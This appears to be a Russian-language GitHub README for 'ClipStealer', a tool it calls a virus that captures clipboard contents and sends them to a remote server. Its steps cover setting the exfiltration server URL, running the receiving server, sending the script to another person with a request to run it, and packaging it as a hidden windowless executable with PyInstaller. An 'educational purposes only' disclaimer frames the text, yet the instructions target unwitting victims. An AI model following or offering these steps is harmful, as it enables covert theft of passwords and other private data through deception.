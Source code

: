 #CleapStealer - вирус, копирующий всю информацию из буфера обмена.

## Описание

Программа позволяет перехватывать данные из буфера обмена и отправлять их на удалённый сервер. Этот проект создан исключительно для образовательных целей, чтобы понять, как подобные механизмы работают, и как защититься от них.

## Возможности

- Мониторинг буфера обмена.
- Сохранение текста, копируемого пользователем.
- Отправка данных на сервер через HTTP-запросы.

## Установка и запуск

### Шаг 1: Скачивание

Клонируйте репозиторий на своё устройство:

```bash
git clone https://github.com/Filinsl/ClipStealer.git
```

### Шаг 2: Установка зависимостей

Перейдите в директорию проекта и установите зависимости:

```bash
cd ClipStealer
pip install -r requirements.txt
```

### Шаг 3: Редактирование 
Замените  ссылку в файле ClipStealer.py на Url сервера для отправки запроса
```
SERVER_URL = 'ezample_url/api/clipboard'  # Замените на ваш адрес
```
### Шаг 4: Запуск сервера

Запустите сервер:

```bash
python server.py
```



### Шаг 5: Отправка файла
Вы можете отправить кому то файл ClipStealer.py и попросить запустить через консоль

```bash
python ClipStealer.py
```
Или вы можете собрать exe файл, например с помощью PyInstaller

```bash
pyinstaller --onefile --noconsole ClipStealer.py
```

## Отказ от ответсвенности

Этот проект предоставлен исключительно для образовательных целей. Любое несанкционированное использование кода может быть наказуемо законом.


